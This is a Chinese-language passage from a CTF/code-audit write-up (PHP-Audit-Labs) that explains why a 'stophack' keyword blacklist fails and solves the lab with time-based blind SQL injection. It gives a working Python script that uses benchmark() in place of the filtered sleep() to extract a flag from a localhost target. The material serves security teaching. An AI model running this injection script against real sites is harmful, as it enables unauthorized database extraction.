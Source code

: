 我们可以清楚的看到 **stophack** 函数存在 **过滤不严** 和 **检测到非法字符未直接退出** 两个问题。

![8](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day9-12/files/7.png)

程序如果检测到非法字符或单词，都会将其替换成字符串 **HongRi** ，然而并没有立即退出，这样攻击者输入的攻击语句还是会继续被带入数据库查询。只不过这里关键词都被替换成了字符串 **HongRi** ，所以我们需要绕过这里的黑名单。纵观整个程序，当 **SQL** 语句执行出错时，并不会将错误信息显示出来，所以此处应为盲注。开发者估计也是考虑到这个问题，便将关键词 **sleep** 给过滤了，然而这并不能影响攻击者继续使用盲注来获取数据。关于禁用了 **sleep** 函数的盲注，大家可以直接参考这篇文章：[mysql 延时注入新思路](https://xz.aliyun.com/t/2288) 。这里我直接利用 **benchmark** 函数来获取flag。python程序如下：

```python
import sys, string, requests

version_chars = ".-{}_" + string.ascii_letters + string.digits + '#'
flag = ""
for i in range(1,40):
    for char in version_chars:
        payload = "-1 or if(ascii(mid((select flag from flag),%s,1))=%s,benchmark(200000000,7^3^8),0)" % (i,ord(char))
        url = "http://localhost/index.php?id=%s" % payload
        if char == '#':
            if(flag):
                sys.stdout.write("\n[+] The flag is： %s" % flag)
                sys.stdout.flush()
            else:
                print("[-] Something run error!")
            exit()
        try:
            r = requests.post(url=url, timeout=2.0)
        except Exception as e:
            flag += char
            sys.stdout.write("\r[-] Try to get flag： %s" % flag)
            sys.stdout.flush()
            break
print("[-] Something run error!")
```
